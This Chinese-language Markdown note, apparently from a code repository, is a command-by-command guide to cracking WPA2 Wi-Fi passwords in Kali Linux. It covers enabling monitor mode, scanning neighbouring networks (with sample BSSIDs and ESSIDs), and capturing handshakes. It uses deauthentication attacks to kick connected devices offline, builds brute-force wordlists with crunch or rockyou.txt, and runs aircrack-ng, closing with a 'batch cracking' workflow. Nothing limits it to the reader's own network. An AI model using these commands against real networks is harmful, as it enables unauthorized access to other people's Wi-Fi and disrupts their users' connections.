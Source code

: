 ## wifi密码

vmware 设置无线网卡  虚拟机-可移动设备- 网卡 - 连接

1. sudo -i 
2. ifconfig
3. airmon-ng  
4. airmon-ng start wlan0  发起监听网卡
5. ifconfig
6. airodump-ng wlan0 扫描周边wifi（wlan0mon是上一步ifconfig查询出来的网卡名）
扫描出来的大概信息为 ： 
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                                                                                                                                                                                                                                                      
 08:60:83:A4:88:90  -58        3      147   20   3  130   WPA2 CCMP   PSK  CMCC-2EFH                                                                                                                              
 EC:6C:B5:98:CA:40  -61        9       11    0   9  130   WPA2 CCMP   PSK  CMCC-208
扫描出来的wifi信息 原来抓包 ，需要用到bssid（mac地址）  和 ch （频段） 
7. 抓包到handshake （被动的抓包模式 需要有用户上下线 ，所以我们使用另外更快的方法,可以促进它加速完成）
airodump-ng -c 9 --bssid EC:6C:B5:98:CA:40  -w /home/kail/桌面/handshake wlan0mon

8. 使用ack死亡攻击 踢下线 ，WiFi有自动登入功能，重新登录我们就可以立马抓到包了

aireplay-ng -0 10 -a EC:6C:B5:98:CA:40 -c 30:03:C8:3B:D7:C7 wlan0mon 

    0 代表下线; 10 代表攻击10次 ; -a后面是mac地址 ;-c后面是我们上一步抓包的STATION ，代表设备(选中一个流量跑得快的设备)

当抓包的终端头部出现 ...WPA handshake: EC:6C:B5:98:CA:40...  代表我们抓包成功了！
会在桌面上生成4-5个文件 ， 我们主要用到.cap文件

9. 准备字典  生成字典 （如下）

10. 暴力破解 

跑本地字典 ： 
aircrack-ng -w /home/kail/passwords-1.txt -b EC:6C:B5:98:CA:40 /home/kail/桌面/handshake-0*.cap

aircrack-ng -w /root/00000000-99999999.txt -b EC:6C:B5:98:CA:40 /home/kail/桌面/handshake-0*.cap
跑生成的字典 ： 
    -w 后面是我们放在桌面的字典  -b后面是BSSID地址  以及我们抓包的文件地址

## 准备字典  生成字典

  使用crunch工具进行 字典生成  优化规则
/usr/share/crunch/ 找到定义好的字符集  
1. 28.lalpha-numeric                = [abcdefghijklmnopqrstuvwxyz0123456789]
2. 40.mixalpha-numeric-all       = [abcdefghijklmnopqrstuvwxypqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789]

执行生成命令 : 

crunch 8 8 /usr/share/crunch/charset.lst lalpha-numeric  

执行这个命令后，Crunch工具将生成一个包含所有可能的8位长度的小写字母和数字组合的密码列表。这个列表可以用于密码破解或测试密码强度。请注意，由于密码长度为8位，生成的密码列表可能非常大，需要一定的时间和资源。生成这个密码字典为3Gb



根据字符集生成密码 -o START 路径.txt 可以输出文件
表示 生成最短8个 最长8个 指定字符集规则的文件
crunch 8 8 /usr/share/crunch/charset.lst mixalpha-numeric-all

crunch 8 8 /usr/share/crunch/charset.lst mixalpha-numeric-all -b 1gb -o START /home/kail/

//生成指定字符串
crunch 8 8 abcdefghijklmnopqrstuvwxypqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -b 1gb -o START /home/kail/

crunch 8 8 abcdefghijklmnopqrstuvwxypqrstuvwxyz0123456789 -d 1 -b 1gb -o START /home/kail/

crunch 8 8 0123456789 -b 1gb -o START /home/kail/

### kail自带字典   

Kali自带的字典文件在/usr/share/wordlists下，将rockyou.txt.gz解压得到rockyou.txt字典文件（该文件包含一千多万个唯一密码）
    解压  gzip -d  /usr/share/wordlists/rockyou.txt.gz     
    解压后文件夹 /usr/share/wordlists/rockyou.txt


## 批量破解流程

扫描周边wifi 
airmon-ng start wlan0 
airodump-ng wlan0mon

抓包  bssid（mac地址） 和 ch （频段） 也是这里的-c
airodump-ng -c 6 --bssid F4:84:8D:9A:56:EE -w /home/apple/桌面/handshake wlan0mon

攻击  -a后面是mac地址 ;-c后面是我们上一步抓包的STATION
aireplay-ng -0 10 -a F4:84:8D:9A:56:EE -c EC:2E:98:93:AF:2F wlan0mon

破解  -w 后面是我们放在桌面的字典  -b后面是BSSID地址  以及我们抓包的文件地址
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b F4:84:8D:9A:56:EE /home/apple/桌面/handshake-02.cap

## vmware 操作支持 


外接wifi 使得虚拟机可以使用外接网卡 


虚拟机 - 可移动设备 - 801.11 n wlan(找到插入的网卡) - 连接